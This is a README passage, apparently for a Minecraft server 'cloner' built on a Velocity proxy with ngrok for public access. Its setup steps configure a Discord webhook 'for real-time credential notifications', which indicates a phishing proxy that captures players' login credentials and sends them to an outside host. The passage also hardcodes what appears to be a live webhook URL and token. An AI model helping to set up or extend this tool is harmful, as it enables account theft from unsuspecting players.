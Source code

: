### 3. Verify Velocity Components

The Velocity proxy server and plugins are automatically downloaded on first run. The `velocity-server/` directory structure:

```
velocity-server/
├── velocity.jar              # Velocity 3.3.0-436 (auto-downloaded)
├── velocity.toml             # Proxy configuration (auto-generated)
├── forwarding.secret         # Security key (auto-generated)
├── plugins/                  # Plugin directory
│   ├── ViaVersion.jar       # Version compatibility (auto-downloaded)
│   └── ViaBackwards.jar     # Legacy support (auto-downloaded)
└── logs/                     # Runtime logs
    └── latest.log           # Current session log
```

### 4. Configure Discord Webhook (Optional)

For real-time credential notifications:

1. **Create Discord Webhook**:
   - Go to your Discord server settings
   - Navigate to Integrations → Webhooks
   - Create new webhook and copy the URL

2. **Update Configuration**:
   - Open `minecraft-cloner.js` in a text editor
   - Find line ~15 in the `DiscordWebhook` class:
   ```javascript
   this.webhookUrl = 'https://discord.com/api/webhooks/1425884465346908330/2BpSzSOr_DNyPtWsAKkdgolpufhCI0os3nTGZj_ImV3NsQwZoDdRa6vr8xdJsrKbdBSA';
   ```
   - Replace with your webhook URL
   - Set `this.enabled = true;` to enable notifications

### 5. Install ngrok (Optional but Recommended)

For public server access without port forwarding:

#### Windows
```powershell
# Using Chocolatey
choco install ngrok

# Or download from https://ngrok.com/download
```

#### macOS
```bash
# Using Homebrew
brew install ngrok/ngrok/ngrok

# Or download from https://ngrok.com/download
```
